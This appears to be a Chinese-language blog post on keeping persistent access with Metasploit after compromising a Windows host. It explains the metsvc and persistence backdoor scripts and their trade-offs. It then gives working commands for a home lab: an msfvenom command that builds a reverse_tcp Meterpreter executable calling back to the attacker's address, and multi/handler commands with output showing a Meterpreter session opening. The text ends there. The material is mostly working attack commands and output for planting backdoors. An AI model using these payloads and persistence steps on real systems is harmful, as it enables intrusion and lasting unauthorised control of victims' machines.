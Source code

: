 ```yaml
---
layout: post
title: Metasploit 「控制持久化」权限维持
comments: false
description: ""
keywords: "Tricks"
---
```


在获取到 Meterpreter shell 后进行服务器控制持久化，自带的留后门方式有两种。

## 原理

1、metsvc：通过服务启动，是 Meterpreter 下的一个脚本；

运行 `run metsvc` 将会在目标主机上以 Meterpreter 的服务的形式注册在服务列表中，并开机自动自动；

运行 `run metsvc -r` 卸载目标主机上的 Meterpreter 服务；

原理：设置的后门在目标机启动后会自动开启一个服务，等待连接；这个有点正向代理的意思，自己开个端口等待接入控制；

优点：命令简单，不必设置太多参数，即不需要设置反弹到的主机IP、端口等，直接 `run metsvc -A`；

缺点：如何其他人知道服务器的ip，都可以利用这个后门开启的服务来控制服务器【扫描器发现】；

2、persistence：通过启动项启动，也是 Meterpreter 下的一个脚本；

移除后门：删除注册表中的值和上传的 VBScript 文件，具体位置执行脚本后有提示。

原理：有点反向代理的意思；

优点：由于是主动献殷勤，目标机器上的防火墙对于此等操作一般均会放行，后门的存活率较高；

## 情况？

Mac【Metasploit】：192.168.43.100

Win7【目标机】：192.168.43.103【桥接】，开启3389端口方便检测验证

实际场景：拿到目标机权限后，希望能够进行长期控制，即目标开机后仍可上线，或者说本地开启监听后目标仍可上线；

生成反弹shell木马；

```
[Go0s]: ~ 
➜  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.100 LPORT=4444 -f exe > ~/Desktop/shell.exe 
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 333 bytes
Final size of exe file: 73802 bytes
```

直接在目标机运行上线，拿到目标机的 Meterpreter shell；

```
msf exploit(handler) > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.43.100
lhost => 192.168.43.100
msf exploit(handler) > exploit 

[*] Started reverse TCP handler on 192.168.43.100:4444 
[*] Sending stage (179267 bytes) to 192.168.43.103
[*] Meterpreter session 1 opened (192.168.43.100:4444 -> 192.168.43.103:49283) at 2018-01-12 14:49:13 +0800
```
